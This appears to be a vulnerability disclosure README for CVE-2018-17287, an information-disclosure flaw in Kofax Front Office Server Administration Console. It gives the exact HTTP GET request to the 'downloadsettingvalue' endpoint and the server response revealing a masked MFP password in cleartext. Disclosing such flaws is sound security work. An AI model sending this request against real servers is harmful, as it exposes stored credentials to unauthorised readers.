

# CVE-2018-17287-Information Disclosure

In Kofax Front Office Server Administration Console 4.1.1.11.0.5212, some fields (Ex. password fields) are obfuscated in the front-end, but the cleartext value can be exfiltrated by using the back-end "download" feature, as demonstrated by an mfp.password downloadsettingvalue operation.



<br />


##### Request:
```
GET /Kofax/KFS/Admin/SettingsService/settings/customization/downloadsettingvalue/mfp.ricoh.properties/mfp.password/ HTTP/1.1
Host: *****************
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: KFS_AUTH_ADMIN=e3129819-d807-48ec-8ae8-efdb76388c4e
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

##### Response:
```
HTTP/1.1 200 OK
Cache-Control: max-age=3600
Content-Type: application/xml
Server: Microsoft-IIS/8.5
Content-Disposition: attachment; filename=mfp.password.xml
Set-Cookie: fileDownload=true; path=/
X-AspNet-Version: 4.0.30319
X-Powered-By: ASP.NET
X-Frame-Options: SAMEORIGIN
Date: Wed, 23 May 2018 12:21:32 GMT
Connection: close
Content-Length: 5

ricoh
```
